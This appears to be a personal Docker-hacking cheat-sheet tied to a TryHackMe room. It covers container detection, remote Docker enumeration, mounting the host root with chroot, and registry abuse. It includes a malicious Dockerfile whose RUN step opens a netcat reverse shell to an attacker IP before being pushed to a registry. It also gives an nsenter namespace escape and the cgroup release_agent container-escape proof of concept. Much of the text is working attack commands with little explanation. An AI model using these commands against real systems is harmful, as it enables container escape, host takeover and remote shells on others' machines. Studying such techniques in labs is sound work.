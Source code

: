 # Docker Hacking
For basic information about docker try here: [[Intro-To-Docker]].
How do you know you are in a docker container?
[pspy](https://github.com/DominicBreuker/pspy) on Linux
Systernals proc\*-related tools or access with tasklist for windows.

## How to know when you are in a container
```bash
.dockerenv
cat /proc/$pid/cgroup | grep docker
```

## Preface
Add IP and domain name to /etc/hosts
```bash
echo "$IP $DOMAIN" | tee -a /etc/hosts
```

Configure Docker to trust your instance, either make `/etc/docker/daemon.json` or enter:
```json
{
	 "target-id" : ["docker-domain.name:$DOCKERPORTLOW","docker-domain.name:$DOCKERPORTHIGH"]
}
```

Control Docker(Linux)
```bash
systemctl stop docker
systemctl start docker
```

## What is Docker and Containers?

The Docker Engine that is layer of computational organisation above the hardware, the host OS and its kernel. It is not a hypervisor. Each Docker contain must have the same kernel type to operate. A container is commonly used to hold an environment or specific OS of an OS family to test system variation of running software. It is similar to VM hosting but Docker with there is **NO** virtualisation, hence requiring host OS that host Contain running similar OSes. Docker images are a read-only template of instruction for creating a Docker container. 

[Some ways to secure a docker container](https://faun.pub/hack-your-docker-container-6d3e1e1b363)

## Docker Commands

```bash
RUN echo "Docker"
COPY 
````

[Commands](https://docs.docker.com/engine/reference/commandline/cli/)

##  Docker Enumeration
On target machine enumerate the lay of the land:
```bash
docker -H $remotehost $dockcmd
docker ps
docker version
docker image ls
docker config ls
```

[cli Tool](https://github.com/containers/skopeo)

## GTFOBins/docker
[gtofbins](https://gtfobins.github.io/gtfobins/docker/#shell)

## Accessing Docker Container and exec..
```
docker -H $remotehost run -v /:/mnt --rm -it -d $image:$tag
docker -H $remotehost run -v /:/mnt --rm -it $image:$tag chroot /mnt sh

```

## Abusing Docker Registry
[Docker registries](https://docs.docker.com/registry/) are stateless server side application stores the Docker Image. Registries store and provide Docker images for use. Private registeries contain variouses called a **tag**. The Docker Registry is a JSON endpoint query it with 

Nmap scan to find the ports to interact with the container.

```bash
# postman
GET http://$domain:$port/
````

## Reversing Images
Download the image to reverse
```docker
docker pull app/app:$TAG
```

[Dive](https://github.com/wagoodman/dive) is a tool for exploring each layer in a docker image. 

## Uploading Malicious Docker Images
Dockerfile 
```docker
FROM $image:

RUN apt-get update -y
RUN apt-get install netcat -y # Socat would be better!
RUN nc -c /bin/sh $IP $PORT
```
Build image
```bash
docker build
```
Then upload with push:
```
docker push
```

## Shared Namespaces
Namespaces segregate system resources. Have root access inside the container or potential use pspy. 
Find a namespace
```bash
ps aux
```
We then mount the namespace of the process running outside of the container with a sh shell.
```
nsenter --target $PID --mount sh
```

## Misconfigured Privilieges
If a docker container is running with privileged mode it bypasses the Docker engine and has direct communication with host OS. List container capabilities with:
```
capsh --print | grep # admin chroot sys_module sys_time
```
The commented out greppables indicate privilege mode. [PoC](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
```bash
# On the host
# docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
 
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## References

[Docker](https://docs.docker.com/get-started/overview/)
[THM Room](https://tryhackme.com/room/dockerrodeo)
[trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
[cgroups](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)